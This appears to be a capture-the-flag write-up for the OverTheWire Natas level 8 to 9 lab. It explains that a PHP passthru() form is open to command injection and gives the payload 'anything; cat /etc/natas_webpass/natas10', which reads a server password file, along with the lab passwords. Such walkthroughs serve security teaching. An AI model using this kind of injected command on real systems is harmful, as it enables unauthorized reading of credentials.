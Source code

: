 # [Level 08 to 09](https://overthewire.org/wargames/natas/natas9.html) - 

- Login
```
URL: http://natas9.natas.labs.overthewire.org
Username: natas9
Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
```
- Exercise:
![image](https://github.com/user-attachments/assets/4c08799f-9545-46b7-aa8a-26ab048108d9)
![image](https://github.com/user-attachments/assets/a9611c67-0c0c-42bb-9c07-98bb292167bb)

- Background:
- Solution:
  - Form uses PHP `passthru()` function to run
  - Input is directly inserted into the command unsanitized
  - We can exploit this by injecting shell commands
  - Password for `natas10` is stored on the server at `/etc/natas_webpass/natas10`
  - Enter as the `needle` input: `anything; cat /etc/natas_webpass/natas10`
  - Input goes into shell like: `grep -i anything; cat /etc/natas_webpass/natas10 dictionary.txt`

![image](https://github.com/user-attachments/assets/03b8edc7-63e3-4d86-a7e5-52b632e0994e)

- Password: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`
